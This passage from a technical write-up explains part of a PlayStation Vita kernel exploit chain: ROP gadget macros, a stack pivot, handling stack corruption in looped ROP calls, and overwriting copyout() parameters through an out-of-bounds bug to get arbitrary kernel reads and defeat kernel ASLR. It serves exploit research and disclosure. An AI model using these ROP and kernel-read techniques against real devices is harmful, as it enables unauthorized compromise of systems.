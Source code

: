 ```c
    mul_add_rvv ret, loop_start - loop_end, loop_end

    // Stack pivot
    store_rv         ret, ldm_data_r0 + 0x0c
    set_r0_r2_ip_sp_lr_pc ldm_data_r0
  loop_end:
```

Note that we are using the macro `load_call_lvv_2` here instead of `load_call_lvv`. The difference is that the second version skips some words before the call:

```c
  .word add_sp_14_pop_pc                   // pc
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
```

This is neccessary because when calling subroutines in ROP, the stack gets corrupted due to the subroutine's stack allocations such as for the prologue, where callee saved registers are pushed onto stack (sidemark: if you call a syscall, then the user stack remains untouched). Normally this does not matter, but in a loop we want to reuse the gadgets. In our case the stack is corrupted by `push.w {r4, r5, r6, r7, r8, lr}` in `sceNgsRackGetRequiredMemorySize()`, since it is to be exact only a wrapper that calls the actual syscall `sceNgsRackGetRequiredMemorySizeInternal()`.

#### Defeating kernel ASLR

We have now only partially defeated kernel ASLR by learning the kernel stack base address. However to build a kernel ROP chain which we will later use, we must know at least a base address of a kernel module. This is because we cannot implicitly execute user executable memory in kernel, thus our ROP chain cannot consist of user gadgets.  
While reverse engineering the codepath of the rack syscall, I found something bizarre: It is using some fields in the SceNgsBlock header in order to store temporary variables. Some of those are the parameters for a `copyout()`!  
This means that we can easiely enable an arbitrary kernel read primitive by using our out-of-bounds exploit to overwrite these parameters (see [stage2.S](https://github.com/TheOfficialFloW/h-encore-private/blob/master/stage2/stage2.S)):

```c
  // Set presets information in voice definition
  store_vv PRESET_LIST_OFFSET, voice_def_buf + 0x30
  store_vv 2,                  voice_def_buf + 0x34

  // Set presets
  set_preset 0, 0,                   -(0x148 + 2 * 0x18) + COPYOUT_PARAMS_OFFSET
  set_preset 1, FAKE_COPYOUT_OFFSET, FAKE_COPYOUT_SIZE

  // Overwrite copyout's dst, src and len
  call_vvv memset,      voice_def_buf + FAKE_COPYOUT_OFFSET, 0, FAKE_COPYOUT_SIZE
  store_vv sysmem_base, voice_def_buf + FAKE_COPYOUT_OFFSET + 0x04 // dst
  add_lv   kstack_base, KSTACK_SYSMEM_OFFSET
  store_rv ret,         voice_def_buf + FAKE_COPYOUT_OFFSET + 0x08 // src
  store_vv 4,           voice_def_buf + FAKE_COPYOUT_OFFSET + 0x1c // len

  // Trigger exploit
  trigger_exploit

  // Get SceSysmem base address
  load_add_store sysmem_base, sysmem_base, SCE_SYSMEM_BASE
```

